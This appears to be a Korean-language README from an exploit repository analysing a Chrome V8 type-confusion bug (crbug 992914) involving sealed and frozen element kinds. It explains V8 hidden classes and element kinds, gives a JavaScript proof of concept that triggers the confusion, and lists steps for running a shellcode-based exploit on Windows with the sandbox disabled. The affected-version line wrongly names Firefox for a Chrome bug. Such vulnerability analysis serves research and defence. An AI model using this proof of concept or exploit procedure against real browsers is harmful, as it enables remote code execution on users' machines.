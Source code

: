 # Chrome Sealed Frozen Element Kind Type Confusion

## Information
- CVE : None
- 해당 소프트웨어 : Chrome (on Windows)
- 해당 버전 : < Firefox 76.0.3809.132
- 취약점 유형 : TypeConfusion

## Root Cause
### Hidden Class
V8 engine에서 String(or Symbol) Key Object를 생성할때 HiddenClass라는 새로운 class를 생성한다. HiddenClass는 기존 객체지향언어의 Class의 개념과 비슷한데 기존 HiddenClass에 새로운 named Property(String key로 선언된 property)가 추가될때마다 그에 맞는 새로운 HiddenClass를 생성한다. 이를 간략하게 나타낸 그림은 아래와 같다.
![Transitions](images/transitions.png)

새로운 객체가 생성될때 해당 객체와 모양이 동일한(string key의 값이 동일한) 기존에 생성된 HC가 있다면 이를 재사용하지만 그렇지 않다면 HiddenClass tree에 새로운 HC를 생성한다. 
![Transition-trees](images/transition-trees.png)

small integer key를 가지는 객체의 경우 최적화를 위해 압축된 폼새으로 저장된다. V8은 다양한 element kinds를 관리하는데, 예를들어 PACKED_SMI_ELEMENTS는 앞서 말한 small integer key객체를 저장하는 element kind이다. 저장 포맷은 type confusion을 방지하기 위해 객체가 수정될때마다 변경된다. 예를들어 PACKED_SMI_ELEMENTS 객체에 float key를 가지는 property를 추가하면 element kind가 PACKED_DOUBLE_ELEMENTS로 변경되고 기존의 integer keys도 float형으로 변경된다.

### preventExtensions, seal and freeze
자바스크립트는 object의 properties들을 고정하기 위한 몇가지 방법을 제공한다
- Object.preventExtensions : 새로운 properties가 object에 추가되는 것을 방지한다.
- Object.seal : 세로운 properties의 추가 뿐만아니라 기존의 properties의 재설정을 방지한다.
- Object.freeze : Object.seal의 기능에 더불어서 properties의 값 변경또한 방지한다.

### Root cause
Type Confusion 취약점은 앞서 설명한 세가지 메소드를 호출한 이후 객체를 수정하여 element kind를 변경될때 발생한다. 자세한 설명은 다음장에서 POC살펴보며 분석해보겠다.

## PoC
```javascript
// Based on test/mjsunit/regress/regress-crbug-992914.js

function mainSeal() {
  const a = {foo: 1.1};   // a has map M1
  Object.seal(a);         // a transitions from M1 to M2 Map(HOLEY_SEALED_ELEMENTS)

  const b = {foo: 2.2};   // b has map M1
  Object.preventExtensions(b);  // b transitions from M1 to M3 Map(DICTIONARY_ELEMENTS)
  Object.seal(b);         // b transitions from M3 to M4
  const c = {foo: Object} // c has map M5, which has a tagged `foo` property, causing the maps of `a` and `b` to be deprecated
  b.__proto__ = 0;        // property assignment forces migration of b from deprecated M4 to M6

  a[5] = 1;               // forces migration of a from the deprecated M2 map, v8 incorrectly uses M6 as new map without converting the backing store. M6 has DICTIONARY_ELEMENTS while the backing store remained unconverted.
}

mainSeal();
```

POC에서 a와 b라는 동일한 형태의 두 객체가 생성된다. a의 경우 sea 메소드가 호출되고, b는 seal 메소드와 함께 preventExtensions 메소드가 호출된다. 이 때문에 a의 경우 기존 M1 map에서  HOLEY_SEALED_ELEMENTS라는 element kind로 변경되고 b의 경우 DICTIONARY_ELEMENT로 element kind가 변경된다. 

취약점은 10~13라인에서 발생한다. 10번째 줄에서 객체 c가 이상한 타입의 foo property로 생성된다. 이로인해 foo property를 위한 새로운 map이 생성되고 기존의 a와 b의 map은 deprecated된다. 이로인해 다음번 객체 수정에서 a와 b의 map 형식이 변경된다. 11번째 줄에서는 b의 transition이 발생하고 13번째 줄에서는 a의 transition이 발생한다. 문제는 V8이 a의 map을 b와 동일한 map으로 변경하지만 backing store는 변경하지 못해서 발생한다. 이때문에 FixedArray와 NumberDictionary 간의 Type Confusion이 발생한다. 

위의 예제 말고도 다양한 조합의 type confusion이 발생할 수 있다. 

## How to run exploit?
> OS : Windows 10 64bit
> 
> Chrome version : 76.0.3809.100 and 76.0.3809.132
1) --no-sandbox 옵션으로 크롬 실행
2) exp.html 파일을 로드
3) 쉘코드를 수정하고싶으면 shellcode.js를 수정

## Reference
- [Exodus Intel Blog : "PATCH-GAPPING GOOGLE CHROME"](https://blog.exodusintel.com/2019/09/09/patch-gapping-chrome/)
- [Exodus Intel Github : "Chrome-Issue-992914-Sealed-Frozen-Element-Kind-Type-Confusion-RCE-Exploit"](https://github.com/exodusintel/Chrome-Issue-992914-Sealed-Frozen-Element-Kind-Type-Confusion-RCE-Exploit/tree/master/chrome_992914)
- [V8 dev Blog : "Fast properties in V8"](https://v8.dev/blog/fast-properties)